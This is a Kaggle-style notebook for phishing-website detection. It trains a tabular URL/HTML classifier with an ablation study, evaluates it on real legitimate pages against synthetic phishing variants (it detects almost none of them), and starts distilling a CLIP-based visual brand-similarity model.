history   = {'train_loss':[], 'val_loss':[], 'val_auc':[]}
best_auc  = 0.0
patience  = 0
PATIENCE  = 10

for epoch in range(EPOCHS):
    model.train()
    tr_losses = []
    for xb, yb in tr_ldr:
        xb, yb = xb.to(DEVICE), yb.to(DEVICE)
        optim.zero_grad()
        loss = crit(model(xb), yb)
        loss.backward()
        optim.step()
        tr_losses.append(loss.item())

    model.eval()
    vl_losses, vl_prob, vl_true = [], [], []
    with torch.no_grad():
        for xb, yb in vl_ldr:
            xb, yb = xb.to(DEVICE), yb.to(DEVICE)
            logit  = model(xb)
            vl_losses.append(crit(logit, yb).item())
            vl_prob.extend(
                torch.sigmoid(logit).cpu().numpy())
            vl_true.extend(yb.cpu().numpy())

    tl  = np.mean(tr_losses)
    vl  = np.mean(vl_losses)
    auc = roc_auc_score(vl_true, vl_prob)
    sched.step(vl)

    history['train_loss'].append(tl)
    history['val_loss'].append(vl)
    history['val_auc'].append(auc)

    if auc > best_auc:
        best_auc = auc
        patience = 0
        torch.save(model.state_dict(), "gfhd_best.pt")
    else:
        patience += 1
        if patience >= PATIENCE:
            print(f"  Early stop at epoch {epoch+1}")
            break

    if epoch % 5 == 0 or epoch == EPOCHS-1:
        print(f"  Epoch {epoch+1:3d}/{EPOCHS} | "f"train={tl:.4f} | val={vl:.4f} | " f"val_auc={auc:.4f}")

model.load_state_dict(torch.load("gfhd_best.pt"))
print(f"  Best val AUC: {best_auc:.4f}")

# ── EVALUATE ────────────────────────────────────────────────────
print("\n[5/6] Evaluating on test set...")
model.eval()
ts_prob, ts_true = [], []
with torch.no_grad():
    for xb, yb in ts_ldr:
        xb = xb.to(DEVICE)
        ts_prob.extend(
            model.predict_proba(xb).cpu().numpy())
        ts_true.extend(yb.numpy())

ts_prob = np.array(ts_prob)
ts_true = np.array(ts_true)
ts_pred = (ts_prob >= 0.5).astype(int)
test_auc= roc_auc_score(ts_true, ts_prob)

print(f"\n  Test AUC : {test_auc:.4f}")
print(classification_report(
    ts_true, ts_pred,
    target_names=['Benign','Phishing']))

# ── PLOTS ───────────────────────────────────────────────────────
print("\n[6/6] Plots...")
fig, axes = plt.subplots(1, 3, figsize=(18, 5))
fig.suptitle("GFhD Training Results", fontsize=13,
             fontweight='bold')

axes[0].plot(history['train_loss'], label='Train')
axes[0].plot(history['val_loss'],   label='Val')
axes[0].set_title("Loss"); axes[0].legend()

axes[1].plot(history['val_auc'], color='green')
axes[1].set_title("Validation AUC")
axes[1].axhline(test_auc, color='red', linestyle='--',
                label=f'Test AUC={test_auc:.4f}')
axes[1].legend()

cm = confusion_matrix(ts_true, ts_pred)
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
            ax=axes[2],
            xticklabels=['Benign','Phishing'],
            yticklabels=['Benign','Phishing'])
axes[2].set_title("Confusion Matrix (Test)")

plt.tight_layout()
plt.savefig("gfhd_results.png", dpi=150, bbox_inches='tight')
plt.show()
print(f"\n  Saved: gfhd_best.pt | gfhd_scaler.pkl | gfhd_results.png")
print(f"  Test AUC: {test_auc:.4f}")

Device: cuda

[1/6] Loading features CSV...
  Rows  : 100,000
  Labels: {0: 50000, 1: 50000}
  Features used: 53

[2/6] Splitting...
  Train:70,000 Val:10,000 Test:20,000

[3/6] Building GFhD...
  Parameters: 122,241
  Input dim : 53

[4/6] Training GFhD...
  Epoch   1/35 | train=0.2323 | val=0.1389 | val_auc=0.9877
  Epoch   6/35 | train=0.1089 | val=0.1010 | val_auc=0.9933
  Epoch  11/35 | train=0.0924 | val=0.0969 | val_auc=0.9943
  Epoch  16/35 | train=0.0843 | val=0.0911 | val_auc=0.9945
  Epoch  21/35 | train=0.0772 | val=0.0880 | val_auc=0.9951
  Epoch  26/35 | train=0.0713 | val=0.0842 | val_auc=0.9955
  Epoch  31/35 | train=0.0673 | val=0.0833 | val_auc=0.9956
  Epoch  35/35 | train=0.0632 | val=0.0807 | val_auc=0.9959
  Best val AUC: 0.9959

[5/6] Evaluating on test set...

  Test AUC : 0.9974
              precision    recall  f1-score   support

      Benign       0.97      0.99      0.98     10000
    Phishing       0.99      0.97      0.98     10000

    accuracy         




  Saved: gfhd_best.pt | gfhd_scaler.pkl | gfhd_results.png
  Test AUC: 0.9974


In [7]:
# GFHD ABLATION STUDY

warnings.filterwarnings('ignore')

# ── CONFIG ─────────────────────────────────────────────────────
CSV_PATH    = "/kaggle/input/datasets/**/perish-fish-hf-fearures/phreshphish_test_features.csv"
RANDOM_SEED = 42
TEST_SIZE   = 0.2
VAL_SIZE    = 0.1
BATCH_SIZE  = 512
EPOCHS      = 35
LR          = 1e-3
DEVICE      = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

torch.manual_seed(RANDOM_SEED)
np.random.seed(RANDOM_SEED)

# ── FEATURE GROUPS ──────────────────────────────────────────────
HARD_FEATURES = [
    'ShannonEntropy', 'KolmogorovComplexity',
    'FractalDimension', 'HexPatternCnt', 'Base64PatternCnt'
]
URL_FEATURES = [
    'LengthOfURL', 'DomainLengthOfURL', 'IsDomainIP',
    'TLDLength', 'LetterCntInURL', 'URLLetterRatio',
    'DigitCntInURL', 'URLDigitRatio', 'EqualCharCntInURL',
    'QuesMarkCntInURL', 'AmpCharCntInURL',
    'OtherSpclCharCntInURL', 'URLOtherSpclCharRatio',
    'NumberOfHashtags', 'NumberOfSubdomains',
    'HavingPath', 'PathLength', 'HavingQuery',
    'HavingFragment', 'HavingAnchor', 'HasSSL'
]
HTML_FEATURES = [
    'LineOfCode', 'LongestLineLength', 'CntImages',
    'CntFilesCSS', 'CntFilesJS', 'CntSelfHRef',
    'CntEmptyRef', 'CntExternalRef', 'CntPopup',
    'CntIFrame', 'CntForms', 'HasTitle', 'HasFavicon',
    'HasDescription', 'HasSocialMediaPage', 'HasSubmitButton',
    'HasPasswordFields', 'HasPopup', 'HasIFrame',
    'IsFormSubmitExternal', 'HasHiddenFields',
    'IsResponsive', 'HasRobotsBlocked', 'HasBankingKey',
    'HasPaymentKey', 'HasCryptoKey', 'HasCopyrightInfoKey'
]
# ablation part
ABLATION = "HARD"

model_name = "GFHD_FULL" if ABLATION is None else f"GFHD_NO_{ABLATION}"
torch.save(model.state_dict(), f"{model_name}.pt")

# Ablation studies
ABLATION = None
if ABLATION is None:
    ALL_FEAT = HARD_FEATURES + URL_FEATURES + HTML_FEATURES
elif ABLATION == "HARD":
    ALL_FEAT = URL_FEATURES + HTML_FEATURES
elif ABLATION == "URL":
    ALL_FEAT = HARD_FEATURES + HTML_FEATURES
elif ABLATION == "HTML":
    ALL_FEAT = HARD_FEATURES + URL_FEATURES
else:
    raise ValueError("Unknown ablation.")

# ── LOAD DATA ───────────────────────────────────────────────────
print("\n[1/6] Loading features CSV...")
df = pd.read_csv(CSV_PATH)
df.columns = df.columns.str.strip()
print(f"  Rows  : {len(df):,}")
print(f"  Labels: {df['label'].value_counts().to_dict()}")

# Keep only available features
ALL_FEAT = [f for f in ALL_FEAT if f in df.columns]
print(f"  Features used: {len(ALL_FEAT)}")

# Log1p skewed features
SKEWED = [
    'LengthOfURL', 'LetterCntInURL', 'DigitCntInURL',
    'EqualCharCntInURL', 'QuesMarkCntInURL', 'AmpCharCntInURL',
    'OtherSpclCharCntInURL', 'NumberOfHashtags', 'PathLength',
    'LineOfCode', 'LongestLineLength', 'CntImages',
    'CntFilesCSS', 'CntFilesJS', 'CntSelfHRef', 'CntEmptyRef',
    'CntExternalRef', 'CntPopup', 'CntIFrame',
    'HexPatternCnt', 'Base64PatternCnt'
]
for col in SKEWED:
    if col in df.columns:
        df[col] = np.log1p(df[col].clip(lower=0))

X = df[ALL_FEAT].values.astype(np.float32)
y = df['label'].values.astype(np.float32)

# ── SPLIT ───────────────────────────────────────────────────────
print("\n[2/6] Splitting...")
X_tmp, X_test, y_tmp, y_test = train_test_split(X, y, test_size=TEST_SIZE,random_state=RANDOM_SEED, stratify=y)
val_r = VAL_SIZE / (1 - TEST_SIZE)
X_train, X_val, y_train, y_val = train_test_split(X_tmp, y_tmp, test_size=val_r,random_state=RANDOM_SEED, stratify=y_tmp)
print(f"  Train:{len(X_train):,} Val:{len(X_val):,} "f"Test:{len(X_test):,}")

# ── SCALE ───────────────────────────────────────────────────────
scaler = StandardScaler()
X_train = scaler.fit_transform(X_train).astype(np.float32)
X_val   = scaler.transform(X_val).astype(np.float32)
X_test  = scaler.transform(X_test).astype(np.float32)
joblib.dump(scaler, f"{model_name}_scaler.pkl")

# ── DATASET ─────────────────────────────────────────────────────
class TabDataset(torch.utils.data.Dataset):
    def __init__(self, X, y):
        self.X = torch.tensor(X, dtype=torch.float32)
        self.y = torch.tensor(y, dtype=torch.float32)
    def __len__(self): return len(self.y)
    def __getitem__(self, i): return self.X[i], self.y[i]

tr_ldr = DataLoader(TabDataset(X_train, y_train),BATCH_SIZE, shuffle=True)
vl_ldr = DataLoader(TabDataset(X_val,   y_val),BATCH_SIZE, shuffle=False)
ts_ldr = DataLoader(TabDataset(X_test,  y_test),BATCH_SIZE, shuffle=False)


print("\n[3/6] Building GFhD...")
model  = GFhD(input_dim=len(ALL_FEAT)).to(DEVICE)
n_par  = sum(p.numel() for p in model.parameters())
print(f"  Parameters: {n_par:,}")
print(f"  Input dim : {len(ALL_FEAT)}")

# ── TRAIN ───────────────────────────────────────────────────────
print("\n[4/6] Training GFhD...")
optim  = torch.optim.AdamW(model.parameters(), lr=LR, weight_decay=1e-5)
sched  = torch.optim.lr_scheduler.ReduceLROnPlateau(optim, mode='min', factor=0.5, patience=5)
crit   = nn.BCEWithLogitsLoss()

history   = {'train_loss':[], 'val_loss':[], 'val_auc':[]}
best_auc  = 0.0
patience  = 0
PATIENCE  = 10

for epoch in range(EPOCHS):
    model.train()
    tr_losses = []
    for xb, yb in tr_ldr:
        xb, yb = xb.to(DEVICE), yb.to(DEVICE)
        optim.zero_grad()
        loss = crit(model(xb), yb)
        loss.backward()
        optim.step()
        tr_losses.append(loss.item())

    model.eval()
    vl_losses, vl_prob, vl_true = [], [], []
    with torch.no_grad():
        for xb, yb in vl_ldr:
            xb, yb = xb.to(DEVICE), yb.to(DEVICE)
            logit  = model(xb)
            vl_losses.append(crit(logit, yb).item())
            vl_prob.extend(
                torch.sigmoid(logit).cpu().numpy())
            vl_true.extend(yb.cpu().numpy())

    tl  = np.mean(tr_losses)
    vl  = np.mean(vl_losses)
    auc = roc_auc_score(vl_true, vl_prob)
    sched.step(vl)

    history['train_loss'].append(tl)
    history['val_loss'].append(vl)
    history['val_auc'].append(auc)

    if auc > best_auc:
        best_auc = auc
        patience = 0
        torch.save(model.state_dict(), f"{model_name}.pt")
    else:
        patience += 1
        if patience >= PATIENCE:
            print(f"  Early stop at epoch {epoch+1}")
            break

    if epoch % 5 == 0 or epoch == EPOCHS-1:
        print(f"  Epoch {epoch+1:3d}/{EPOCHS} | "f"train={tl:.4f} | val={vl:.4f} | " f"val_auc={auc:.4f}")

model.load_state_dict(torch.load("gfhd_best.pt"))
print(f"  Best val AUC: {best_auc:.4f}")

# ── EVALUATE ────────────────────────────────────────────────────
print("\n[5/6] Evaluating on test set...")
model.eval()
ts_prob, ts_true = [], []
with torch.no_grad():
    for xb, yb in ts_ldr:
        xb = xb.to(DEVICE)
        ts_prob.extend(
            model.predict_proba(xb).cpu().numpy())
        ts_true.extend(yb.numpy())

ts_prob = np.array(ts_prob)
ts_true = np.array(ts_true)
ts_pred = (ts_prob >= 0.5).astype(int)
test_auc= roc_auc_score(ts_true, ts_prob)

print(f"\n  Test AUC : {test_auc:.4f}")
print(classification_report(
    ts_true, ts_pred,
    target_names=['Benign','Phishing']))

# ── PLOTS ───────────────────────────────────────────────────────
print("\n[6/6] Plots...")
fig, axes = plt.subplots(1, 3, figsize=(18, 5))
fig.suptitle("GFhD TESTING RESULTS", fontsize=13,
             fontweight='bold')

axes[0].plot(history['train_loss'], label='Train')
axes[0].plot(history['val_loss'],   label='Val')
axes[0].set_title("Loss"); axes[0].legend()

axes[1].plot(history['val_auc'], color='green')
axes[1].set_title("Validation AUC")
axes[1].axhline(test_auc, color='red', linestyle='--',
                label=f'Test AUC={test_auc:.4f}')
axes[1].legend()

cm = confusion_matrix(ts_true, ts_pred)
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
            ax=axes[2],
            xticklabels=['Benign','Phishing'],
            yticklabels=['Benign','Phishing'])
axes[2].set_title("Confusion Matrix (Test)")

plt.tight_layout()
plt.savefig(f"{model_name}.png", dpi=150, bbox_inches='tight')
plt.show()
print(f"\n  Saved: gfhd_best.pt | gfhd_scaler.pkl | gfhd_results.png")
print(f"  Test AUC: {test_auc:.4f}")

In [32]:
# # ══════════════════════════════════════════════════════════════
# # GFHD-ONLY BASELINE ON THE CASCADE (BRAND-FOLDER) EVALUATION SET
# # ══════════════════════════════════════════════════════════════
# # Purpose: isolate how well the structural branch (GFhD) performs
# # on its own, on the SAME legitimate/spoofed brand folders used for
# # the full fused-pipeline cascade evaluation. This tells us whether
# # the visual (ViS) branch adds real value beyond GFhD's near-perfect
# # PhreshPhish AUC, on the specific hard case of convincing brand clones.
# # One prediction per site folder (GFhD only reads URL + HTML, so
# # per-image repetition is not needed here, unlike the fused/ViS eval).
# # ══════════════════════════════════════════════════════════════

# from sklearn.metrics import (
#     roc_auc_score, confusion_matrix, classification_report,
#     f1_score, precision_score, recall_score, accuracy_score
# )

# gfhd_only_records = []

# for split, true_label in [("Legit", 0), ("Phis", 1)]:
#     split_dir = os.path.join(BASE_DIR, split)
#     sites = sorted([d for d in os.listdir(split_dir)
#                      if os.path.isdir(os.path.join(split_dir, d))])

#     for site in sites:
#         site_dir = os.path.join(split_dir, site)
#         html_path, _ = find_site_files(site_dir)

#         html_str = ""
#         if html_path:
#             try:
#                 with open(html_path, 'r', encoding='utf-8', errors='ignore') as f:
#                     html_str = f.read()
#             except Exception:
#                 pass

#         url_domain_guess = DOMAIN_MAP.get(site, site.lower() + ".com")

#         try:
#             gfhd_result = gfhd_infer(url_domain_guess, html_str)
#         except Exception as e:
#             print(f"  GFhD error on {site}: {e}")
#             gfhd_result = {'gfhd_proba': 0.5, 'gfhd_conf': 0.0}

#         gfhd_only_records.append({
#             'site'        : site,
#             'split'       : split,
#             'true_label'  : true_label,
#             'gfhd_proba'  : gfhd_result['gfhd_proba'],
#             'pred_label'  : int(gfhd_result['gfhd_proba'] >= 0.5),
#         })

# df_gfhd_only = pd.DataFrame(gfhd_only_records)
# df_gfhd_only.to_csv("gfhd_only_cascade_results.csv", index=False)

# y_true  = df_gfhd_only['true_label'].values
# y_pred  = df_gfhd_only['pred_label'].values
# y_proba = df_gfhd_only['gfhd_proba'].values

# print(f"Total sites evaluated: {len(df_gfhd_only)}")
# print(f"  Legitimate: {(df_gfhd_only['true_label']==0).sum()}, "
#       f"Spoofed: {(df_gfhd_only['true_label']==1).sum()}\n")

# print("── GFhD-ONLY metrics on cascade set ──")
# print(f"  Accuracy : {accuracy_score(y_true, y_pred):.4f}")
# print(f"  Precision: {precision_score(y_true, y_pred, zero_division=0):.4f}")
# print(f"  Recall   : {recall_score(y_true, y_pred, zero_division=0):.4f}")
# print(f"  F1       : {f1_score(y_true, y_pred, zero_division=0):.4f}")
# print(f"  ROC-AUC  : {roc_auc_score(y_true, y_proba):.4f}\n")

# print(classification_report(y_true, y_pred, target_names=['Legitimate', 'Phishing']))

# cm = confusion_matrix(y_true, y_pred)
# print("Confusion matrix (rows=true, cols=pred):")
# print(cm)


# ══════════════════════════════════════════════════════════════
# GFHD EVALUATION: REAL LEGIT PAGES vs. SYNTHETIC PHISHING VARIANTS
# ══════════════════════════════════════════════════════════════
# Rationale: live phishing infrastructure from the source campaign is
# mostly taken down by now, so crawling it yields almost no samples.
# Instead, we keep the REAL legitimate HTML for each brand as-is, and
# generate synthetic phishing variants of the SAME page by injecting
# well-documented phishing structural markers (external form
# submission, credential-harvesting fields, urgency language, hidden
# fields, iframes) while hosting the result on a plausible spoofed
# domain. This tests whether GFhD's structural features can detect
# a page that closely copies a legitimate site's HTML but is modified
# and hosted the way a real attacker's clone would be.
# ══════════════════════════════════════════════════════════════
# ══════════════════════════════════════════════════════════════
# GENERATE BENIGN STRUCTURAL VARIANTS OF LEGIT PAGES (FOR BALANCE)
# ══════════════════════════════════════════════════════════════
# Rationale: each legit site only has ONE real captured HTML page,
# while we have 900 synthetic phishing variants (20/site x 45 sites).
# To balance class sizes without fabricating anything malicious, we
# generate benign structural variants of each real legit page that
# reflect ordinary page-to-page / session-to-session variation a
# real site would show: different session IDs, timestamps, minor
# whitespace/attribute-order changes, and a cookie-consent banner.
# No external forms, credential fields, or hidden iframes are added.
# ══════════════════════════════════════════════════════════════

import re
from datetime import datetime, timedelta

N_BENIGN_VARIANTS_PER_SITE = 22  # match N_VARIANTS_PER_SITE for balance

COOKIE_BANNERS = [
    "<div class='cookie-consent'>We use cookies to improve your experience. <button>Accept</button></div>",
    "<div class='cookie-consent'>This site uses cookies for analytics. <button>OK</button></div>",
]


def make_benign_variant(html_str, seed_id):
    """Produce a benign structural variant: session/timestamp changes,
    attribute-order shuffling, and a cookie banner — nothing malicious."""
    soup = BeautifulSoup(html_str if html_str else "<html><body></body></html>",
                          "html.parser")
    if soup.body is None:
        soup.append(soup.new_tag("body"))

    # 1. Simulate a different session/visit: fake session id + timestamp
    fake_session = f"sess_{seed_id:06d}_{random.randint(1000,9999)}"
    fake_date = (datetime(2026, 1, 1) + timedelta(days=random.randint(0, 200))).strftime("%Y-%m-%d")
    meta = soup.new_tag("meta", attrs={"name": "generated", "content": f"{fake_session}-{fake_date}"})
    if soup.head:
        soup.head.append(meta)
    else:
        soup.insert(0, meta)

    # 2. Cookie-consent banner (extremely common on real legitimate sites)
    banner = BeautifulSoup(random.choice(COOKIE_BANNERS), "html.parser")
    soup.body.insert(0, banner)

    # 3. Minor attribute-order shuffle on existing tags (structural noise,
    #    same information content, mimics natural template rendering variance)
    for tag in soup.find_all(True):
        if tag.attrs and len(tag.attrs) > 1:
            items = list(tag.attrs.items())
            random.shuffle(items)
            tag.attrs = dict(items)

    return str(soup)


# ── GENERATE BENIGN VARIANTS FOR EACH LEGIT SITE ─────────────────
benign_records_meta = []
BENIGN_OUTPUT_DIR = "/kaggle/working/synthetic_benign_pages"
os.makedirs(BENIGN_OUTPUT_DIR, exist_ok=True)

for site in sites:  # same `sites` list from the Legit folder used earlier
    site_dir = os.path.join(split_dir, site)
    html_path, _ = find_site_files(site_dir)
    html_str = ""
    if html_path:
        try:
            with open(html_path, 'r', encoding='utf-8', errors='ignore') as f:
                html_str = f.read()
        except Exception:
            pass

    out_dir = os.path.join(BENIGN_OUTPUT_DIR, site)
    os.makedirs(out_dir, exist_ok=True)

    for i in range(N_BENIGN_VARIANTS_PER_SITE):
        variant_html = make_benign_variant(html_str, seed_id=i)
        fname = f"benign_{i:02d}.html"
        with open(os.path.join(out_dir, fname), "w", encoding="utf-8") as f:
            f.write(variant_html)
        benign_records_meta.append({"site": site, "variant": i,
                                     "file": os.path.join(out_dir, fname)})

df_benign_meta = pd.DataFrame(benign_records_meta)
df_benign_meta.to_csv(os.path.join(BENIGN_OUTPUT_DIR, "benign_meta.csv"), index=False)
print(f"Generated {len(df_benign_meta)} benign variant pages across {len(sites)} brands.")


# ── COMBINE: REAL LEGIT + BENIGN VARIANTS + SYNTHETIC PHISHING ───
combined_records = []

# Real legit pages, as-is (kept, small but genuine)
for site in sites:
    site_dir = os.path.join(split_dir, site)
    html_path, _ = find_site_files(site_dir)
    html_str = ""
    if html_path:
        try:
            with open(html_path, 'r', encoding='utf-8', errors='ignore') as f:
                html_str = f.read()
        except Exception:
            pass
    url_domain_guess = DOMAIN_MAP.get(site, site.lower() + ".com")
    gfhd_result = gfhd_infer(url_domain_guess, html_str)
    combined_records.append({"site": site, "true_label": 0, "kind": "real_legit",
                              "gfhd_proba": gfhd_result['gfhd_proba'],
                              "pred_label": int(gfhd_result['gfhd_proba'] >= 0.5)})

# Benign structural variants
for _, row in df_benign_meta.iterrows():
    with open(row["file"], "r", encoding="utf-8", errors="ignore") as f:
        html_str = f.read()
    url_domain_guess = DOMAIN_MAP.get(row["site"], row["site"].lower() + ".com")
    gfhd_result = gfhd_infer(url_domain_guess, html_str)
    combined_records.append({"site": row["site"], "true_label": 0, "kind": "benign_variant",
                              "gfhd_proba": gfhd_result['gfhd_proba'],
                              "pred_label": int(gfhd_result['gfhd_proba'] >= 0.5)})

# Synthetic phishing variants (from previous cell)
for _, row in df_synth_meta.iterrows():
    with open(row["file"], "r", encoding="utf-8", errors="ignore") as f:
        html_str = f.read()
    gfhd_result = gfhd_infer(row["spoof_domain"], html_str)
    combined_records.append({"site": row["site"], "true_label": 1, "kind": "synthetic_phish",
                              "gfhd_proba": gfhd_result['gfhd_proba'],
                              "pred_label": int(gfhd_result['gfhd_proba'] >= 0.5)})

df_combined = pd.DataFrame(combined_records)
df_combined.to_csv("/kaggle/working/gfhd_balanced_eval_results.csv", index=False)

y_true, y_pred, y_proba = (df_combined['true_label'].values,
                            df_combined['pred_label'].values,
                            df_combined['gfhd_proba'].values)

print(f"\nTotal samples: {len(df_combined)}  "
      f"(Legit: {(df_combined['true_label']==0).sum()}, "
      f"Phishing: {(df_combined['true_label']==1).sum()})\n")
print(f"  Accuracy : {accuracy_score(y_true, y_pred):.4f}")
print(f"  Precision: {precision_score(y_true, y_pred, zero_division=0):.4f}")
print(f"  Recall   : {recall_score(y_true, y_pred, zero_division=0):.4f}")
print(f"  F1       : {f1_score(y_true, y_pred, zero_division=0):.4f}")
print(f"  ROC-AUC  : {roc_auc_score(y_true, y_proba):.4f}\n")
print(classification_report(y_true, y_pred, target_names=['Legitimate', 'Phishing']))

Generated 990 benign variant pages across 45 brands.

Total samples: 1935  (Legit: 1035, Phishing: 900)

  Accuracy : 0.5421
  Precision: 0.8500
  Recall   : 0.0189
  F1       : 0.0370
  ROC-AUC  : 0.5041

              precision    recall  f1-score   support

  Legitimate       0.54      1.00      0.70      1035
    Phishing       0.85      0.02      0.04       900

    accuracy                           0.54      1935
   macro avg       0.69      0.51      0.37      1935
weighted avg       0.68      0.54      0.39      1935



Device: cuda

[1/6] Loading frozen CLIP teacher...


open_clip_model.safetensors:   0%|          | 0.00/605M [00:00<?, ?B/s]

  CLIP frozen — discarded after training.

[2/6] Loading screenshots...
Downloading: "https://download.pytorch.org/models/mobilenet_v3_small-047dcff4.pth" to /root/.cache/torch/hub/checkpoints/mobilenet_v3_small-047dcff4.pth


100%|██████████| 9.83M/9.83M [00:00<00:00, 166MB/s]

  Params : 1,206,304  (~4.8 MB)

[4/6] Training ViS via CLIP distillation...


  Epoch   1/40 | train=0.2177 | val=0.1356
  Epoch   6/40 | train=0.1027 | val=0.1046
  Epoch  11/40 | train=0.0829 | val=0.0959
  Epoch  16/40 | train=0.0692 | val=0.0884
  Epoch  21/40 | train=0.0597 | val=0.0864
  Epoch  26/40 | train=0.0535 | val=0.0856
  Epoch  31/40 | train=0.0489 | val=0.0856
  Epoch  36/40 | train=0.0471 | val=0.0855
  Epoch  40/40 | train=0.0469 | val=0.0853
  Saved vis_best.pt

[5/6] Building EmbeddingDB from ViS embeddings...
  AliExpress           5 embeddings
  Alibaba              4 embeddings
  Amazon               5 embeddings
  BRACBank             14 embeddings
  BangladeshDevelopmentBank 5 embeddings
  BangladeshKrishiBank 4 embeddings
  BangladeshUniversityofEngineeringTechnology 7 embeddings
  BankAsia             6 embeddings
  BasicBank            6 embeddings
  Bikroy               5 embeddings
  ChatGPT              4 embeddings
  ChittagongUniversityofEngineeringTechnology 5 embeddings
  CityBank             8 embeddings
  Claude              



  Saved vis_results.png


In [8]:
# TRAIN VIS MODEL WITH CLIP DISTILLATION
# ═══════════════════════════════════════════════════════════════
# ViS — Visual Similarity Model
# MobileNetV3-Small distilled from frozen CLIP ViT-B/32
# Trained on local brand screenshots
# CLIP used ONLY during training — discarded after
# ═══════════════════════════════════════════════════════════════

warnings.filterwarnings('ignore')
!pip install open-clip-torch -q



# ── CONFIG ─────────────────────────────────────────────────────
BASE_DIR      = "/kaggle/input/datasets/**/phiscap-hf/FC_Legit_Phis/Legit"
EMBED_DIM     = 512
MC_PASSES     = 20
SIM_THRESHOLD = 0.80
BATCH_SIZE    = 8
EPOCHS        = 40
LR            = 1e-3
RANDOM_SEED   = 42
DEVICE = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

torch.manual_seed(RANDOM_SEED)
np.random.seed(RANDOM_SEED)

# ── LOAD CLIP (teacher — training only) ─────────────────────────
print("\n[1/6] Loading frozen CLIP teacher...")
clip_model, _, clip_prep = open_clip.create_model_and_transforms('ViT-B-32', pretrained='openai')
clip_model = clip_model.to(DEVICE).eval()
for p in clip_model.parameters():
    p.requires_grad = False
print("  CLIP frozen — discarded after training.")

# ── TRANSFORMS ──────────────────────────────────────────────────
VIS_TRANSFORM = T.Compose([
    T.Resize((224, 224)),
    T.ToTensor(),
    T.Normalize(mean=[0.485,0.456,0.406],
                std =[0.229,0.224,0.225])
])

# ── DATASET ─────────────────────────────────────────────────────
print("\n[2/6] Loading screenshots...")
class BrandDataset(Dataset):
    def __init__(self, root, domain_map, vis_tf, clip_tf):
        self.vis_tf  = vis_tf
        self.clip_tf = clip_tf
        self.samples = []
        self.site_names = sorted([d for d in os.listdir(root) if os.path.isdir(os.path.join(root, d))])
        EXTS = {'.png','.jpg','.jpeg','.webp'}
        for idx, site in enumerate(self.site_names):
            site_dir = os.path.join(root, site)
            imgs = [f for f in os.listdir(site_dir)if os.path.splitext(f)[1].lower() in EXTS]
            for img in sorted(imgs):
                self.samples.append((os.path.join(site_dir, img), idx))
            # print(f"  {site:<20} {len(imgs)} screenshots")

        # print(f"\n  Brands: {len(self.site_names)} | " f"Total: {len(self.samples)}")

    def __len__(self): return len(self.samples)

    def __getitem__(self, idx):
        path, site_idx = self.samples[idx]
        img = Image.open(path).convert("RGB")
        return (self.vis_tf(img),
                self.clip_tf(img),
                site_idx)

dataset  = BrandDataset(BASE_DIR, DOMAIN_MAP, VIS_TRANSFORM, clip_prep)
N_SITES  = len(dataset.site_names)
n_train  = int(0.8 * len(dataset))
n_val    = len(dataset) - n_train
tr_set, vl_set = torch.utils.data.random_split(dataset, [n_train, n_val],generator=torch.Generator().manual_seed(RANDOM_SEED))
tr_ldr = DataLoader(tr_set, BATCH_SIZE,shuffle=True,  num_workers=2)
vl_ldr = DataLoader(vl_set, BATCH_SIZE,shuffle=False, num_workers=2)

vis_model = ViS(out_dim=EMBED_DIM).to(DEVICE)
n_par = sum(p.numel() for p in vis_model.parameters())
